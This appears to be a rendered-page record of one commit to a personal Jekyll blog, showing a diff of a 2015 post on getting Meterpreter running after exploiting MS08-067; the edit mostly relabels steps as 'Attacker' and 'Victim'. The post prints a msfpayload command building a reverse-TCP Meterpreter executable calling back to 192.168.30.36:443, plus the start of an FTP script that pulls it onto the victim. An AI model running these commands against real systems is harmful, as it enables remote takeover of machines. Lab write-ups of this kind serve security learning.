

Before and after one commit to dmittakarin8/dmittakarin8.github.io, a Jekyll site: the page built from _posts/2015-06-05-Meterpreter-Post-Exploitation.md, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; grey boxes are pictures that could not be loaded.

Commit message:
Updated 2015-06-05-Meterpreter-Post-Exploitation.md

```diff
--- a/_posts/2015-06-05-Meterpreter-Post-Exploitation.md
+++ b/_posts/2015-06-05-Meterpreter-Post-Exploitation.md
@@ -1,24 +1,25 @@
 ---
 published: true
 layout: post
-title: "Meterpreter up and running post exploitation"
+title: Meterpreter up and running post exploitation
 ---
+
 
 I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.
 
-I start the ftp service on my attacking machine
+Attacker:  Start the ftp service on my attacking machine
 
     service pure-ftpd start
 
-I created a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory
+Attacker:  Create a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory
 
     msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
 
-I exploit MS08-067 refer to
+Victim:  Exploit MS08-067 refer to
 
 http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/
 
-FTP is installed on the server.  Because FTP is not interactive I create a text file to pass to the ftp application.  I issue the following commands:
+Victim:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands:
 
     echo open 192.168.30.36> ftp.txt
     echo your_username>> ftp.txt
```
